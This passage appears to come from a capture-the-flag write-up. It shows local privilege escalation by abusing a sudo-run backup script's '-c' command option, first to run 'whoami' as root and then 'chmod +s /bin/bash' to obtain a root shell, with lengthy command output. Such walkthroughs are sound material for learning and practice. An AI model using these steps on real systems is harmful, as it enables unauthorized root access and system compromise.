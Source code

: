 - OK, it's a pretty solid script for making backups, but there's one part of the script that we can abuse. Script will run anyway without any arguments, but we can also add arguments with `-c <command>` and execute different commands.
  I tested it with simple `whoami` command and it worked.

  ```
  alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c whoami
  find: ‘/run/user/108/gvfs’: Permission denied
  /home/alex/Music/image12.mp3
  /home/alex/Music/image7.mp3
  /home/alex/Music/image1.mp3
  /home/alex/Music/image10.mp3
  /home/alex/Music/image5.mp3
  /home/alex/Music/image4.mp3
  /home/alex/Music/image3.mp3
  /home/alex/Music/image6.mp3
  /home/alex/Music/image8.mp3
  /home/alex/Music/image9.mp3
  /home/alex/Music/image11.mp3
  /home/alex/Music/image2.mp3
  Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz
  
  tar: Removing leading `/' from member names
  tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
  tar: Exiting with failure status due to previous errors
  
  Backup finished
  root
  ```

- Perfect, it also runs as root which is ideal. Next I tried `-c cat /root/root.txt` but then the whole script crashed... So let's execute bash and get to root.

  ```
  alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"

  find: ‘/run/user/108/gvfs’: Permission denied
  /home/alex/Music/image12.mp3
  /home/alex/Music/image7.mp3
  /home/alex/Music/image1.mp3
  /home/alex/Music/image10.mp3
  /home/alex/Music/image5.mp3
  /home/alex/Music/image4.mp3
  /home/alex/Music/image3.mp3
  /home/alex/Music/image6.mp3
  /home/alex/Music/image8.mp3
  /home/alex/Music/image9.mp3
  /home/alex/Music/image11.mp3
  /home/alex/Music/image2.mp3
  ```